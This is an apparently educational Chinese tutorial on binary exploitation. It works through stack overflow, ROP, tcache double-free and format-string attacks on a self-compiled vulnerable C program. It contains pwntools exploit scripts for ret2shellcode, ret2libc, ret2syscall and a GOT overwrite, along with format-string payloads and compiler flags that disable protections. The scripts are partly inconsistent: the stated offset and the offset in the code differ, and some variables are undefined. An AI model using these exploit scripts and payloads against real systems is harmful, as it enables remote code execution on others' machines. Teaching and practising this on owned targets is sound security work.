


# 二进制漏洞利用

## 知识点地图

- **知识类别**：二进制漏洞利用（Binary Exploitation，CTF 圈称 pwn）——当攻击面从 Web 下沉到本地程序：内存破坏类漏洞（栈溢出、堆溢出、格式化字符串）的利用原理与缓解对抗。
- **解决什么问题**：Web 漏洞的 payload 是字符串，pwn 的 payload 是「精确排布的内存布局」——差一个字节就段错误。本篇用一个关闭全部缓解的 C 演示程序，把三件事讲透：内存为什么能被破坏（栈帧布局）、被破坏后为什么能控制程序（返回地址覆盖）、现代系统靠什么拦（canary/NX/ASLR/PIE）与攻击者怎么绕（ROP、信息泄露）。
- **什么时候用到**：
  - CTF 的 pwn 类题目（入门到进阶的完整方法论）；
  - 漏洞研究：把真实 CVE 的公开描述抽象成最小复现模型；
  - 读懂漏洞通告里的「可远程代码执行」到底怎么发生，进而评估自己服务器上那些 C 写的服务（sshd、nginx、数据库）的补丁优先级；
  - 理解编译器与操作系统的缓解机制为什么是「默认必开」。
- **与相邻篇目的分工**：逆向（把二进制看懂）在 [逆向工程](/cybersecurity/590-ReverseEngineering)；栈帧与进程内存布局的 C 语言视角在 [进程内存布局与错误](/c/210-ProcessMemoryLayoutAndErrors) 与 [函数调用栈帧](/c/250-FunctionCallStackFrame)；IoT 固件层的同一族问题在 [IoT 与工控安全](/cybersecurity/580-IoTOTSecurity)。本篇专注「利用」本身。
- **授权声明**：本文全部技术仅用于授权测试、CTF 靶场与自己编译的演示程序；对未授权系统实施利用是违法行为（法规见 [IoT 与工控安全](/cybersecurity/580-IoTOTSecurity)）。

## 1. 演示程序与工具链

全程复现用的 C 演示程序——一个经典的「边界缺失的拷贝」：

```c
/* vuln.c：关闭缓解措施的演示程序（仅供学习） */
#include <stdio.h>
#include <string.h>

void win(void) {
    printf("Congratulations! You got a shell-ish win.\n");
}

void vulnerable(void) {
    char buf[64];
    printf("input: ");
    gets(buf);              /* gets 不检查边界：C11 已删除，此处演示历史漏洞形态 */
    printf("you said: %s\n", buf);
}

int main(void) {
    vulnerable();
    return 0;
}
```

编译成「1990 年代的裸奔状态」，方便看清原理：

```bash
# -fno-stack-protector 关 canary；-z execstack 开栈执行（关 NX）；-no-pie 关地址随机化基址
gcc -m32 -fno-stack-protector -z execstack -no-pie -g vuln.c -o vuln
# 缓解措施检查
checksec --file=./vuln
```

工具链四件：**checksec**（看目标开了哪些缓解）、**GDB + pwndbg/gef 插件**（运行时观察栈）、**pwntools**（Python 写利用脚本）、**ROPgadget**（在二进制里搜集可复用的指令片段）。逆向与 GDB 的完整用法见 [逆向工程](/cybersecurity/590-ReverseEngineering)。

## 2. 栈溢出：覆盖返回地址

### 2.1 原理：栈帧里那把钥匙

`vulnerable()` 被调用时，栈上长这样（x86 32 位，栈向低地址生长）：



栈帧的完整进出场（push rbp / call / leave / ret 的逐条语义）在 [函数调用栈帧](/c/250-FunctionCallStackFrame) 逐行拆解，这里取利用视角的三句话：`gets` 不知道 buf 只有 64 字节；多写出的字节沿着「buf → 旧 EBP → 返回地址」的方向蔓延；`ret` 指令无条件跳到「返回地址」那个格子里的值——**把那个值换成任意地址，就劫持了执行流**。

### 2.2 确定偏移量

利用的第一个工程问题：填多少字节正好够到返回地址？答案不靠猜，靠模式串：

```bash
# GDB + pwndbg 环境下
pattern create 200        # 生成 200 字节无重复模式串
# 程序崩溃后
pattern offset 0x41366241 # 用 EIP 里的值反查：偏移 76
```

模式串的原理是「每个 4 字节片段全局唯一」——崩溃时 EIP 里残存的那段模式，就是刚好漫到返回地址的部分，反查即得偏移（本例 `76 = 64 buf + 8 对齐/保存寄存器 + 4 旧 EBP`，具体数字以工具输出为准）。

### 2.3 基本利用：ret2shellcode 与 ret2libc

```python
# pwntools 栈溢出利用
from pwn import *

# 设置目标
elf = ELF('./vuln')
p = process('./vuln')

# 确定偏移量
offset = 44  # 通过 pattern 确定（以你的环境输出为准）

# 构造 payload
# 方法1: ret2shellcode（无 NX 保护时）
shellcode = asm(shellcraft.sh())
payload = b'A' * offset + p32(0x0804a060)  # 返回到 shellcode 地址
payload = shellcode + b'A' * (offset - len(shellcode)) + p32(buf_addr)

# 方法2: ret2libc（有 NX 保护时）
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
payload = b'A' * offset + p32(system_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)

# 发送 payload
p.sendline(payload)
p.interactive()
```

两条路线的分水岭是 **NX（DEP，栈不可执行）**：

- **ret2shellcode**：栈可执行时，把机器码（shellcode）放进 buf，返回地址指向它——本演示程序特意 `-z execstack` 就是让这条路通；
- **ret2libc**：栈不可执行时，返回地址改指向 libc 里的 `system()`，紧随其后的 4 字节充当它的返回地址（占位 `0xdeadbeef`），再往后是参数 `/bin/sh` 的地址——「不执行我写的代码，执行你自带的代码」，NX 形同虚设。

### 2.4 ROP 链：gadget 的乐高

没有现成 `system("/bin/sh")` 可调时（静态链接、无 libc 泄露），用 **ROP**（Return-Oriented Programming）：从二进制里搜「ret 结尾的短指令序列」（gadget），把它们像乐高一样串起来——每个 gadget 做一小步（给寄存器赋值、加法、系统调用），ret 负责跳到下一个：

```python
# ret2syscall（使用 ROP gadgets）
from pwn import *

elf = ELF('./vuln')
p = process('./vuln')

# 寻找 gadgets：ROPgadget --binary ./vuln
# 0x0806f022: pop eax ; ret
# 0x080bb196: pop ebx ; ret
# 0x080492e3: int 0x80

pop_eax = 0x0806f022
pop_ebx = 0x080bb196
int_80  = 0x080492e3

# execve("/bin/sh", NULL, NULL)
payload  = b'A' * offset
payload += p32(pop_eax) + p32(0x0b)     # eax = 11 (execve 系统调用号)
payload += p32(pop_ebx) + p32(bin_sh)   # ebx = "/bin/sh"
payload += p32(int_80)                  # 触发系统调用

p.sendline(payload)
p.interactive()
```

读法：返回地址先指向 `pop eax; ret`——`ret` 弹出下一个栈字（0x0b）进 eax 后再次 ret，跳到 `pop ebx; ret`……栈上排布的「地址 + 数据」交替被逐个消费，这正是「用数据编程控制流」的精髓。ROP 对 NX 完全免疫（执行的全是合法代码段），此后的对抗转向 **ASLR/PIE**（地址都随机了，gadget 在哪）与 **RELRO**（GOT 只读，写不动）。

## 3. 堆溢出：与分配器博弈

### 3.1 glibc 的 chunk 与 bins

堆分配器（ptmalloc）把内存切成 chunk 管理，每个 chunk 头部记录元数据：



释放的 chunk 按 size 进入不同的回收链（bins）：Fast Bins 不超过 0x80 字节（单链表 LIFO）；Small Bins 不超过 0x400 字节（双链表 FIFO）；Large Bins 大于 0x400（按大小排序）；Unsorted Bin 是释放后的中转站。利用的本质：**堆溢出能改写相邻 chunk 的元数据，而分配器会按这些元数据写指针**——「元数据即指针」就是任意写的来源。各代 glibc 对关键路径的检查（安全机制）与对应绕过技术：

| 技术            | 原理                       | glibc 版本 |
| :-------------- | :------------------------- | :--------- |
| Fastbin Dup     | Double Free 获取任意写     | < 2.26     |
| Unlink          | 伪造 chunk 实现任意地址写  | < 2.28     |
| House of Force  | 溢出修改 top chunk 大小    | < 2.29     |
| Tcache Poison   | TCache 双重释放            | < 2.32     |
| House of Orange | 无 free 调用时的利用       | 多版本     |
| Largebin Attack | 大 bin 的 fd_nextsize 利用 | 多版本     |

这张表也是一份「升级 glibc 就消掉一批利用技术」的补丁史。

### 3.2 TCache Poison 示例

```c
// 漏洞代码: double free
#include <stdlib.h>
#include <string.h>
int main() {
    char *a = malloc(0x20);
    char *b = malloc(0x20);
    free(a);
    free(a);    // Double Free! TCache 未检查
    // 现在 TCache 链表: a → a (循环)
    char *c = malloc(0x20);
    // 修改 c 的 fd 指向目标地址
    *(long*)c = 0x41414141;
    malloc(0x20);  // 返回 a
    char *d = malloc(0x20);  // 返回 0x41414141（任意地址写）
    return 0;
}
```

逐步读：同一块内存 `free` 两次，TCache（线程本地缓存 bin）没有「已在链中」的检查，链表成环；再分配时拿到 a，此刻改写它的 fd 指针——下一次分配就「返回」我们写的任意地址。新版本 glibc 加了 tcache 的 key 字段与双向校验，这一条具体技术已经失效，但「错误的生命周期管理 → 分配器元数据被污染 → 任意写」这个模式永远成立。C 侧的正确 free 纪律与堆事故现场在 [动态内存](/c/200-DynamicMemoryManagement) 与 [进程内存布局与错误](/c/210-ProcessMemoryLayoutAndErrors)。

## 4. 格式化字符串：读写双修

### 4.1 漏洞原理

```c
//  危险代码：用户输入被当作格式串
printf(user_input);       // 用户输入作为格式化字符串
sprintf(buf, user_input); // 同样危险

//  安全代码：格式串是字面量，用户输入只做参数
printf("%s", user_input);
```

`printf` 的第一个参数若是用户可控的，`%x`/`%p` 会把**调用者栈上的数据**当参数逐个打印——信息泄露；`%n` 会把「已输出的字节数」**写进**对应参数指向的地址——任意写。一句话：一个格式串同时给了读和写两个原语。

### 4.2 利用方式

```bash
# 信息泄露
%x %x %x %x     # 泄露栈上的值（十六进制）
%p %p %p %p     # 泄露指针值
%s              # 读取指针指向的字符串（任意读）

# 任意地址写
%10$n           # 将已输出字节数写入栈上第10个参数指向的地址
%100c%10$n      # 写入值 100
%<offset>c%<pos>$n  # 精确写入
```

`%n` 的三步走：先 `%p` 扫栈确定「格式串自身在栈上的参数位置」（offset）；把目标地址放进格式串（它会作为某个参数被读到栈上）；用 `%<offset>$n` 引用那个位置完成写入。写大数值（如地址 0x08048456）靠 `%<N>c` 先凑输出字节——所以真实利用常用 `%hn`（半字写入）分两次写，避免输出上亿个字符。

### 4.3 pwntools 一键化

```python
from pwn import *

elf = ELF('./fmt_vuln')
p = process('./fmt_vuln')

# 确定偏移（格式化字符串在栈上的位置）
# 输入 AAAA|%p|%p|%p|... 找到 0x41414141

offset = 6  # 假设偏移为 6

# 任意写：修改 GOT 表项
target_addr = elf.got['printf']  # 要修改的目标地址

# 使用 fmtstr_payload 自动构造
payload = fmtstr_payload(offset, {target_addr: elf.symbols['system']})
p.sendline(payload)
```

经典目标是改写 **GOT 表**（动态链接的函数地址表）：把 `printf@got` 改成 `system`，下次程序调 printf 实际执行 system。现代缓解 **Full RELRO** 让 GOT 只读，这一招失效——pwn 的攻防史就是「利用技术」与「缓解清单」的交替升级。

## 5. 缓解措施与绕过总览

| 缓解 | 作用 | 对应绕过 |
| --- | --- | --- |
| Stack Canary | 栈帧插入哨兵值，ret 前校验 | 泄露 canary 后原样回填；覆盖指针而非返回地址 |
| NX/DEP | 栈/堆不可执行 | ret2libc、ROP（只执行合法代码段） |
| ASLR | 栈/堆/libc 加载地址随机化 | 信息泄露（格式化字符串、未初始化变量）拿地址 |
| PIE | 程序自身加载地址随机化 | 同上，泄露后按偏移重算 |
| RELRO | GOT 写保护 | Full RELRO 下转向改写函数指针/虚表等其他目标 |
| FORTIFY_SOURCE | `printf` 编译期格式串检查、`_s` 系函数 | 编译期拦截，运行期无法绕（写代码时就防住） |

记忆方式：每条缓解关闭一条利用路径，攻击者就转投「信息泄露 + 剩余原语」的组合——所以漏洞利用报告中「信息泄露」几乎总是第一步。防护者的对应动作也很直白：**全量开启缓解 + 换内存安全的语言重写高危解析器**（Rust 化浪潮的根源）。

## 6. 动手实践

### 练习一：CTF pwn 入门全流程

任务：在 pwnable.kr 或 BUUCTF 挑一道栈溢出入门题，完整走「checksec → IDA/GDB 逆向找漏洞点 → pattern 定偏移 → pwntools 写 exploit → 拿 shell」五步，并把每步的输出记录下来。
提示：先 checksec 再决定路线（无 NX 试 ret2shellcode，有 NX 想想哪里有 system）；参考第 2 节的 pwntools 骨架。

参考思路（先自己做，再看要点）：五步中「逆向找漏洞点」最花时间——`gets/strcpy/sprintf/read` 长度参数缺失是新手题的标配；「定偏移」永远用 pattern 别手数；exp 脚本要留 `p.interactive()` 便于验证 shell。

### 练习二：把真实 CVE 抽象成最小复现模型

任务：选一个有公开分析的历史 CVE（如某个栈溢出或格式化字符串 CVE），读分析文后写出：漏洞类型、触发输入形态、涉及的缓解与绕过，并在自己编译的演示程序上复现同型漏洞。
提示：目标是「同型」不是「同码」——把 CVE 的核心缺陷抽成 vuln.c 那样的 10 行模型，是漏洞研究的基本功。

### 练习三（工程场景）：给自研 C 服务做缓解体检

任务：找（或写）一个 C 小服务，用 checksec 检查编译产物，列出六项缓解的开关状态；然后为它的构建系统写出开启全部缓解的编译/链接参数。
提示：GCC 侧 `-fstack-protector-strong -D_FORTIFY_SOURCE=2 -Wl,-z,relro,-z,now -pie`；对照第 5 节表格说出每条参数挡的是哪一行。

参考思路（先自己列，再看）：产物必开 canary/NX/PIE/Full RELRO/FORTIFY；CI 里把 checksec 输出做成门禁（思想同 [C 单元测试与断言](/c/480-CUnitTesting) 的 CI 闭环）；缓解不是「编过就行」——动态链接库也要同样参数，链条断一节全白搭。

## 7. 实际项目中的使用场景

- **漏洞研究与披露**：安全研究员复现、最小化、上报 CVE 的标准工作流；
- **CTF 与人才培养**：pwn 题是二进制安全岗位的入门筛子；
- **企业防御**：理解利用原理才能给服务器上的 C 服务排补丁优先级、才能读懂漏洞通告的严重性评级；
- **安全开发生命周期**：第 5 节的缓解清单直接翻译成编译选项进 CI。

## 8. 与之前和之后的知识的关系

- 往前：[C 进程内存布局与错误](/c/210-ProcessMemoryLayoutAndErrors) 的五段布局与堆事故现场是本篇的内存模型底座；[函数调用栈帧](/c/250-FunctionCallStackFrame) 把栈帧逐行讲透；[逆向工程](/cybersecurity/590-ReverseEngineering) 提供「看懂目标」的眼睛；
- 旁支：[文件上传安全](/cybersecurity/275-FileUploadSecurity) 的 webshell 是应用层「拿到执行」，本篇是二进制层「拿到执行」；两者都会进入 [应急响应](/cybersecurity/560-IncidentResponse) 的视野；
- 往后：IoT 设备固件里同样的内存破坏问题在 [IoT 与工控安全](/cybersecurity/580-IoTOTSecurity)；恶意样本的注入与持久化分析在 [恶意软件分析](/cybersecurity/570-MalwareAnalysis)。

## 9. 官方文档

- pwntools 官方文档（MIT 许可）：https://docs.pwntools.com/
- GDB 官方手册（GPL）：https://sourceware.org/gdb/current/onlinedocs/gdb/
- ROPgadget（GPL-2.0）：https://github.com/JonathanSalwan/ROPgadget
- glibc malloc 源码与 wiki（利用机制的一手资料）：https://sourceware.org/glibc/wiki/MallocInternals
- CTF Wiki pwn 章节（社区开放资料）：https://ctf-wiki.org/pwn/introduction/

## 10. 自我检查

- 能画出 32 位下函数调用后的栈帧布局，并解释返回地址覆盖为什么能劫持控制流；
- 能说出 NX 出现后利用路线从 ret2shellcode 转向 ret2libc/ROP 的原因；
- 能逐步复述 TCache Poison 的六行利用代码，并指出新版 glibc 加了什么检查；
- 能解释 `%n` 写原语的三步走与 Full RELRO 如何封掉 GOT 改写；
- 能对着 checksec 的输出，逐项说出每个缓解挡住哪条利用路径。

## 本章总结

pwn 的三条主线：**栈**（溢出覆盖返回地址，NX 后转 ROP，ASLR 后先泄露）、**堆**（错误生命周期污染分配器元数据换任意写，glibc 每次加检查消掉一批技术）、**格式化字符串**（一个格式串给读写双原语，RELRO 封 GOT 后转其他目标）。所有现代缓解（canary/NX/ASLR/PIE/RELRO/FORTIFY）都是对某一具体技术的精确封堵，而攻击的回应永远是「信息泄露 + 组合剩余原语」——这就是为什么缓解要全量开启、为什么内存安全语言值得投入。理解这一层的人，再看任何「远程代码执行」漏洞通告，看到的都不再是吓人的标签，而是一条可以逐步推演的链。

## 参考与致谢

- 本文栈溢出/堆溢出/格式化字符串三节的操作代码与 bins/缓解对照表整体承接自本仓库 [二进制安全与应急响应](/cybersecurity/580-IoTOTSecurity) 拆分前原第 2-4 节（内容重组并补写讲解）；
- 缓解机制（NX/ASLR/PIE/RELRO/canary）的语义依据 GCC 与 glibc 官方文档；
- CTF 题型分类参考 CTF Wiki（社区开放资料）；
- 其余内容为原创。
